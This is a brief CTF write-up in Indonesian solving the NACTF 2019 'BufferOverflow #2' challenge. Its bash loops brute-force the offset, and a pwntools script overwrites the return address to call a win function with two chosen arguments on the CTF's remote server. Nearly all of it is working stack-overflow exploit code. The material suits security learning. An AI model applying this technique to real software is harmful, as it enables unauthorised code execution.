# BufferOverflow #2

<img src="bufo2.png"><br>
disini dapat melakukan overwrite menuju fungsi win, namun terdapat pengecekan pada 2 buah argumen 
<br><img src="bufo2d.png"><br>



<br>


```
for i in {1..50}; do echo $i; python -c "print 'A'*$i+'\xc2\x91\x04\x08'"| ./bufover-2 ;done
```

<br>

```
for i in {1..50}; do echo $i; python -c "print 'A'*28+'\xc2\x91\x04\x08' + 'A'*$i + '\x55\xDA\xB4\x14\x00\x00\x00\x00\xBE\xB4\x0D\xF0'"| ./bufover-2 ;done
```

<br>

```
from pwn import *

#r = process('./bufover-2')
r = remote('shell.2019.nactf.com', 31184)

win = p32(0x80491c2)
arg1 = p64(0x14b4da55)
arg2 = p32(0xf00db4be)
buff = 'A'*28

payload = buff + win + 'AAAA' + arg1 + arg2

r.sendline(payload)
r.interactive()
```
